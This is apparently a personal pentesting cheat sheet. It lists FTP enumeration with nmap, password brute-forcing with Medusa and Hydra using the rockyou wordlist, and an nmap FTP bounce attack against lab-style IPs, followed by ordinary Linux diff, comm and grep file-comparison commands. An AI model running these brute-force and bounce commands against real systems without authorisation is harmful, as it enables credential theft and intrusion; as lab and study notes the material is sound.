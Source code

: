 >The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port `TCP/21`.

---


## Enumeration

		 Using nmap for -sC for default scripts and -sV for version information

```
$ sudo nmap -sC -sV -p 21 192.168.2.142 
```

#nmap #ftp 

		 connecting the ftp 


```
$ ftp 192.168.2.142
```

#ftp 
#### Brute Forcing with Medusa

```
$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

#medusa #ftp 

		The `Nmap` -b flag can be used to perform an FTP bounce attack:

```
$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```
$ hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142
```

```
$ nc -v 10.129.19.96
```

#hydra #ftp #nmap #medusa #nc 


## File manipulation 


#### Compare two files print the difference

```
$ diff file1.txt file2.txt
```

```
$ diff -u file1.txt file2.txt
```

```
$ diff -u file1.txt file2.txt > differences.txt
```

#### Store the intersection of two files in one file

```
$ comm -12 <(sort file1.txt) <(sort file2.txt) > intersection.txt
```

1. `comm -12`: The `-12` option suppresses lines that are unique to each file, and it only prints the lines that are common between both files.
2. `<(sort file1.txt)`: This uses process substitution to sort the lines of `file1.txt` and provide the sorted output as input to the `comm` command.
3. `<(sort file2.txt)`: Similarly, this sorts the lines of `file2.txt` and provides the sorted output to the `comm` command.
4. `> intersection.txt`: This redirects the output of the `comm` command to a new file named `intersection.txt`.

#### Remove whatever exists in file1 from file2


```
$ grep -vxFf file1.txt file2.txt > result.txt
```


1. `grep`: This command searches for patterns in text.
2. `-v`: This option inverts the match, meaning it will exclude lines that match the patterns.
3. `-xF`: These options ensure that the patterns are treated as fixed strings and match whole lines exactly.
4. `-f file1.txt`: This specifies that the patterns to search for are in the `file1.txt`.
5. `file2.txt`: This is the file in which you want to remove lines.
6. `> result.txt`: This redirects the output to a new file named `result.txt`.


#### Compare two files and remove duplication

```
$ sort -u file1.txt file2.txt > unique_lines.txt
```

#linux #commands
